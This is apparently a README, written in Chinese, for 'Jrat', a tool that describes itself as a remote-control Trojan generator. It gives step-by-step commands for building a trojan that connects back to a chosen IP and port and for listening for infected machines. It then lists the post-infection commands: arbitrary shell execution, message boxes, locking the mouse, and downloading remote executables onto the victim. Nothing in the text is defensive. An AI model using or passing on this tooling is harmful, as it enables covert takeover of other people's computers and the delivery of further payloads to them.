 # Jrat
Jrat is a remote control Trojan horse generator.<br>
使用方法：<br>
在“Jrat>>”阶段可用的命令有：lhost（上线IP），lport（上线端口），port（监听端口），save（生成木马），run（开始监听）<br>
例如：Jrat>> lhost 127.0.0.1    Jrat>> lport 8808    Jrat>> port 8808    Jrat>> save    Jrat>> run<br>
以上步骤是生成一个连接到127.0.0.1，端口为8808的木马，然后开始监听8808端口并等待木马上线<br>
木马上线后，程序来到第二阶段“Command>>”阶段，此阶段中可用的命令有：shell+cmd命令，msgbox+提示信息，clip+true/false（锁定/解锁鼠标），download+link+name（远程下载文件）<br>
例如：Command>> shell start C:    Command>> msgbox Hello World!    Command>> clip true    Command>> download http://baidu.com/1.exe 1.exe<br>
上述命令时，先打开C盘，然后弹出一个对话窗口，显示“Hello World!”，接着鼠标被锁住，最后远程下载一个链接为“http://baidu.com/1.exe”的文件<br>
